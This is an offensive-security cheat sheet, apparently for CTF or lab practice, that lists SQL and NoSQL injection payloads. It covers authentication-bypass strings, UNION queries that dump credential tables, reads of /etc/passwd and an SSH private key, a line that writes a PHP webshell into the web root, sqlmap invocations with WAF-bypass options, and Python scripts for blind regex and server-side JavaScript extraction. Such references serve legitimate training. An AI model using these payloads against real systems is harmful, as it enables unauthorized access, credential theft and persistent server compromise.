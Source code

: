 ```yaml
---
description: >-
  Most modern web applications rely on a database architecture in the back-end
  to manage their data. These databases store and retrieve various types of
  information essential to the application.
---
```


# SQL

MySQL

```bash
# Connect to database
mysql -u root -h 127.0.0.1 -P 3306 -p

# Show all columns
SELECT * FROM table_name

# Show specific column
SELECT column1, column2 FROM table_name

# Result based on string
SELECT * FROM logins WHERE username LIKE 'admin%'

# SQL query from CLI
mysql --host=db --user=root --password=root database -e "show tables"

# SQL query from CLI
mysql -h db -u root -proot database -e 'show tables;'
```

#### MySQL Authenication Bypass

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

```bash
# Basic bypass
admin' or '1'='1

# Basic bypass with comments
admin')-- -
```

#### Union injection

```bash
# Check number of columns
' order by 1-- -
cn' UNION select 1,2,3-- -

# Basic union injection
cn' UNION select 1,@@version,3,4-- -

# Union injection 4 columns
UNION select username, 2, 3, 4 from passwords-- -
```

#### SQLMap

```bash
# Run SQLmap with data parameter
sqlmap -u http://zencorp.com/book --method POST --data "date=2024-10-17" --batch

# Force SSL
sqlmap -r request --risk=3 --level=3 --batch --force-ssl

# Basic auth and WAF bypass
sqlmap -u 'http://10.10.10.10/login' --form --dbs --batch --level 4 --risk 3 --dbms=mssql --headers="Authorization: Basic c3ZjX2lpczpWaW50YWdlIQ==" --tamper=charencode --technique S
```

#### SQL injection in SOAP using WSDLer

```
# Use burp extension WSDLer to parse document
# Intercept request and run sqlmap

sqlmap -r request --batch --dbs
```

#### Enumeration

<pre class="language-bash"><code class="lang-bash"># Fingerprint 
SELECT @@version

# Sleep command
SELECT SLEEP(5)

# Database name
cn' UNION select 1,database(),2,3-- -

<strong># List all database
</strong>cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

# List all columns
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

# Dump data
cn' UNION select 1, username, password, 4 from dev.credentials-- -
</code></pre>

#### File injection

<pre class="language-bash"><code class="lang-bash"># Read local file
cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

# Write string to file
select 'file written successfully!' into outfile '/var/www/html/proof.txt'

# Write webshell 
cn' union select "",'&#x3C;?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -

# Read file
SELECT CAST(FILE_READ('/home/zen/user.txt') AS VARCHAR;
CALL+REVEXEC('cat /home/zen/.ssh/id_rsa')%3B

<strong># Boolean check, this will always be true. 
</strong>test' or 1=1;-- -  
</code></pre>

#### Websocket

```bash
sqlmap -u ws://urlhere.dev:9091
sqlmap -u ws://urlhere.dev:9091 --data '{"id": "1234"}' --dbms mysql --batch --lev
```

#### NoSQL Auth bypass

```bash
# URL
username[$ne]=toto&password[$ne]=toto
username[$regex]=.*&password[$regex]=.*
username[$exists]=true&password[$exists]=true

# Using json (change contenttype to application/json)
{"user": "admin", "password": {"$ne": "admin"}}
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
```

#### NoSQL mongosh

```sql
# Connect
mongosh mongodb://127.0.0.1:27017

# Show database, select and describe
show databases
use test
show collections

# Find item
db.movies.find({type: "James Bond"})

# List documents
db.movies.find({})

# Filter on first/last letter
db.accounts.find({ $and: [ { firstName: { $regex: /^R/ } }, { lastName: { $regex: /^D/ } }] });
```

#### In-Band Data Extraction

NoSQL queries we want to use will have to be formatted like `param[$op]=val` or `param[$ne]=val`.

```sql
# Example request
GET /?search[$ne]=/.*/ HTTP/1.1
```

#### Bind Data Extraction

```sql
# json payload
{"trackingNum":{"$ne":"x"}}

# wilcard
{"trackingNum":{"$regex":"^.*"}}

# Get value of number, try 1,2,3 etc
{"trackingNum":{"$regex":"^1.*"}}
```

Simple extraction script

```python
import requests
import json

# request
def oracle(t):
    r = requests.post(
        "http://94.237.59.168:33111/",
        headers = {"Content-Type": "application/json"},
        data = json.dumps({"trackingNum": t})
    )
    return "bmdyy" in r.text

# Fuzz chars
trackingNum = "XYZ{"
for _ in range(32):
    for c in "0123456789abcdef":
        if oracle({"$regex": "^" + trackingNum + c}):
            trackingNum += c
            break
trackingNum += "}"

print("Tracking Number: " + trackingNum)
```

#### NoSQL injection

```bash
curl -s -X POST http://127.0.0.1:3000/api/v1/getUser -H 'Content-Type: application/json' -d '{"username": {"$regex": ".*"}}' | jq
```

the `$regex` operator can coerce the server into returning the information of all users (whose usernames match `/.*/`).

#### NoSQL using Server Side Javascript Injection

```sql
# Login with 
" || true || ""=="

# Full line
this.username === "" || true || ""=="" && this.password === "<password>"

# Blind extraction
" || (this.username.match('^a.*')) || ""=="
```

<details>

<summary>SSJI Blind script</summary>

```python
import requests
from urllib.parse import quote_plus

def get_data(r):
    global num_req
    num_req += 1

    r = requests.post(
        "http://94.237.59.180:41776",
        headers={"Content-Type":"application/x-www-form-urlencoded"},
        data="username=%s&password=x" % (quote_plus('" || (' + r + ') || ""=="'))
    )
    return "Logged in as" in r.text

# Get username regular
num_req = 0
username = ""
i = 0

while username[-1] != "}":
    for c in range(32, 128):
        if get_data('this.username.startsWith("") && this.username.charCodeAt(%d) == %d' % (i, c)):
            username += chr(c)
            break
    i += 1    

print("Username: %s" % username)
print()
```

</details>
